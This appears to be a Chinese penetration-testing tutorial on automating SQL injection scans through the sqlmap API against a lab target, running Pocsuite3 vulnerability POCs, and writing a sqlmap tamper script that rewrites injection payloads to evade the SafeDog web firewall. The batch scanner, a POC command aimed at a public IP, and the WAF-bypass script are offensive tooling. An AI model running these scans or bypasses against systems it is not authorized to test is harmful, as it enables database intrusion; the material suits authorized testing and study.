

# sqlmapapi&Tamper&Pocsuite


## sqlmapAPI调用实现自动化SQL注入安全检测

前期通过信息收集拿到大量的URL地址，这个时候可以配合SqlmapAPI接口进行批量的SQL注入检测（SRC 挖掘）

开发项目过程：（利用sqlmapapi接口实现批量URL注入安全检测）

1. 创建新任务记录任务ID @get("/task/new")
2. 设置任务ID扫描信息@get("/option/<taskid>/set")
3. 开始扫描对应ID任务 @get("/scan/<taskid>/start")
4. 读取扫描状态判断结果 @get("/scan/<taskid>/status")
5. 如果结束删除ID@get("/task/<taskid>/delete")
6. 扫描结果查看@get("/scan/<taskid>/data")

查看sqlmap相关参数：`python sqlmapapi.py -h`。

`-s`参数为为`api`服务端运行。


开启api服务端：`python sqlmapapi.py -s`，获取到相应的token，IPC数据库的位置在 ：`C:/Users/Admin/AppData/Local/Temp/sqlmapipc-njxsdy6t`，api的socket为：`127.0.0.1:8775`



如果是远程连接的话：`python sqlmapapi.py -s -H "0.0.0.0" -p 8775`

1. 设置任务ID，`@get("/task/new")`

   python利用request模块访问api接口的url（不同的url具有不同的功能），先创建一个新任务的记录id，使用后会返回一个随机的taskid（每次调用api都会创建不同的任务id）。

   ```python
   import requests
   
   task_new_url = "http://127.0.0.1:8775/task/new"
   taskid = requests.get(url=task_new_url).json()
   task_id = taskid["taskid"]
   print(task_id)
   ```

   

   由于`taskid`返回的是`json`格式（键值对），我们需要引入`json`模块来对`taskid`键的值进行读取（用`content.decode("utf-8")`方法不能通过键来读取值，当然可以通过正则表达式筛选）

2. 设置任务id的扫描信息：`@post("/option/<taskid>/set ")`。

   构建`post`要提交的数据，以`json`的形式构建请求（POST请求需要修改HTTP头中的Content-Type字段为application/json），post提交的键值对为要访问的靶场的url。

   ```python
   import json
   
   import requests
   
   task_new_url = "http://127.0.0.1:8775/task/new"
   taskid = requests.get(url=task_new_url).json()
   task_id = taskid["taskid"]
   print("创建任务ID为" + task_id)
   task_set_url = "http://127.0.0.1:8775/option/"+str(task_id)+"/set"
   data = {
       "url":"http://192.168.132.139/mypage/sqli-labs/Less-1/?id=1"
   }
   header = {
       "Content-type":"application/json"
   }
   task_set_id = requests.post(url=task_set_url, data=json.dumps(data), headers=header)
   print(task_set_id.json())
   ```

   

   注意：要将post提交的data从python对象编码转换为json对象，使用`json.dumps()函数`。

3. 启动对应ID的扫描任务：`@post("/scan/<taskid>/start")`

   这里如果任务启动成功，就返回`true`，用if判断，返回True就打印信息。

   注意：这里post的data和配置扫描信息是一致的。

   ```python
   import json
   
   import requests
   
   task_new_url = "http://127.0.0.1:8775/task/new"
   taskid = requests.get(url=task_new_url).json()
   task_id = taskid["taskid"]
   print("创建任务ID为" + task_id)
   task_set_url = "http://127.0.0.1:8775/option/"+str(task_id)+"/set"
   data = {
       "url":"http://192.168.132.139/mypage/sqli-labs/Less-1/?id=1"
   }
   header = {
       "Content-type":"application/json"
   }
   task_set_id = requests.post(url=task_set_url, data=json.dumps(data), headers=header)
   print(task_set_id.json())
   task_start_url = "http://127.0.0.1:8775/scan/"+str(task_id)+"/start"
   task_start_id = requests.post(url=task_start_url, data=json.dumps(data), headers=header).json()
   if (task_start_id['success']):
       print("任务" + task_id + "已经启动")
   ```

   

4. 读取扫描状态判断结果 @get("/scan/<taskid>/status")

   ```python
   import json
   
   import requests
   
   task_new_url = "http://127.0.0.1:8775/task/new"
   taskid = requests.get(url=task_new_url).json()
   task_id = taskid["taskid"]
   print("创建任务ID为" + task_id)
   task_set_url = "http://127.0.0.1:8775/option/"+str(task_id)+"/set"
   data = {
       "url":"http://192.168.132.139/mypage/sqli-labs/Less-1/?id=1"
   }
   header = {
       "Content-type":"application/json"
   }
   task_set_id = requests.post(url=task_set_url, data=json.dumps(data), headers=header)
   print(task_set_id.json())
   task_start_url = "http://127.0.0.1:8775/scan/"+str(task_id)+"/start"
   task_start_id = requests.post(url=task_start_url, data=json.dumps(data), headers=header).json()
   if (task_start_id['success']):
       print("任务" + task_id + "已经启动")
   task_status_url = "http://127.0.0.1:8775/scan/"+str(task_id)+"/status"
   task_status_id = requests.get(url=task_status_url).content.decode("UTF-8")
   print(task_status_id)
   ```

   

   返回not running表示一直在扫描（这是应为开启了多个任务）

5. 扫描结果查看@get("/scan/<taskid>/data")

   浏览器查看扫描完成的信息：`http://127.0.0.1:8775/scan/任务id号/data`

   

   由于每次访问都是一个新创建的任务，需要进行优化，使得只创建一个任务进行扫描，这里通过if语句进行判断，如果上一步成功才进行下一步

   在判断扫描任务是否结束时，使用flag开关的while循环，如果扫描结束就读取扫描的结果并写入文本，然后销毁任务。

6. 如果结束删除ID@get("/task/<taskid>/delete")

综合上面的内容可以编写一个`sqlmap`的自动化扫描脚本。

```python
import json
import time

import requests

def sqlmapapi(url):
    data = {
        "url": url
    }
    header = {
        "Content-type": "application/json"
    }
    task_new_url = "http://127.0.0.1:8775/task/new"
    taskid = requests.get(url=task_new_url)
    task_id = taskid.json()["taskid"]
    if ('success' in taskid.content.decode("UTF-8")):
        print("创建新任务ID成功" + task_id)
        task_set_url = "http://127.0.0.1:8775/option/" + str(task_id) + "/set"
        task_set_id = requests.post(url=task_set_url, data=json.dumps(data), headers=header)
        # print(task_set_id.json())
        if ('success' in task_set_id.content.decode("UTF-8")):
            print("设置任务ID扫描信息成功")
            task_start_url = "http://127.0.0.1:8775/scan/" + str(task_id) + "/start"
            task_start_id = requests.post(url=task_start_url, data=json.dumps(data), headers=header)
            if ('success' in task_start_id.content.decode("UTF-8")):
                print("启动对应ID的扫描任务")
                while 1:
                    task_status_url = "http://127.0.0.1:8775/scan/" + str(task_id) + "/status"
                    task_status_id = requests.get(url=task_status_url).content.decode("UTF-8")
                    if ('running' in task_status_id):
                        print("读取扫描状态判断结果")
                        # print(url + "scan running")
                    else:
                        print("sqlmapapi scan stop")
                        scan_data_url = "http://127.0.0.1:8775/scan/" + str(task_id) + "/data"
                        scan_data = requests.get(url=scan_data_url).content.decode("UTF-8")
                        print("扫描结果查看")
                        with open(r"result.txt", "a+") as f:
                            f.write(url + "开始测试")
                            f.write(scan_data)
                            f.write(url + "测试成功")
                            f.close()
                        task_delete_url = "http://127.0.0.1:8775/task/" + str(task_id) + "/delete"
                        task_delete_data = requests.get(url=task_delete_url).content.decode("UTF-8")
                        if ('success' in task_delete_data):
                            print("结束删除ID")
                        break
                        time.sleep(3)

if __name__ == '__main__':
    for url in open("url.txt"):
        url = url.replace("/n","")
        sqlmapapi(url)
```

## Pocsuite3漏扫框架二次开发POC/EXP引入使用

`Pocsuite3`，在poc目录下存在各种漏洞的验证poc，为了。

查看`Pocsuite3`命令：`python cli.py -h`。


1. verity：验证目标是否存在漏洞：`pocsuite -r tests/poc_example.py -u http://www.example.com/ --verify`

2. attack：向目标发起有效的攻击。


漏洞验证的相关命令：

1. `-r`为指定目录，`-r test/poc_example.py`为指定`test`目录下的`poc_example.py`为`poc`代码。 
2. `-u http://www.example.com/`为指定扫描的url。
3. `--verify`为漏洞验证模式。
4. `-f url.txt`为要批量验证靶机的url文本。
5. `--threads`为线程数量

如何根据这个在此框架的基础上编写属于自己的POC呢？参考自带漏洞模版代码模仿写法测试

这里查看poc目录下的thinkphp_rce.py文件的写法

1. 基于POCBase类，属性为漏洞的简介，方法为要进行的漏洞验证/攻击/shell。
2. 在verify函数中,通过调用check函数遍历poc来验证漏洞。
3. 只需要修改`check`函数中的`payload`即可。

使用poc：

```python
python.exe ./cli.py -r ./pocs/Glassfish.py -u https://8.130.73.157:4848 --verify
```

## Sqlmap_Tamper 模块脚本编写绕过滤

sqlmap的tamper目录：如果注入的时候遇见WAF，就利用该目录下的文件进行绕过。

在该目录新建一个：`bypass_safedog.py`文件。

利用replace对注入payload 的关键字进行替代。

```python
from lib.core.enums import PRIORITY
from lib.core.compat import xrange

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    if payload:
        payload = payload.replace('/'', "%00%27")
        payload = payload.replace('select','/*!44575select*/')
        payload = payload.replace('%20','%23a%0a')
        payload = payload.replace('union','%23x%0aunion')
        payload = payload.replace(' ','%23a%0a')
        payload = payload.replace('database()','database%23a%0a()')
    return payload
```

使用sqlmap跑的时候加上参数: `–tamper=bypass_safedog.py`，变化浏览器信息：`--random-agent`，延迟：`–delay=1`
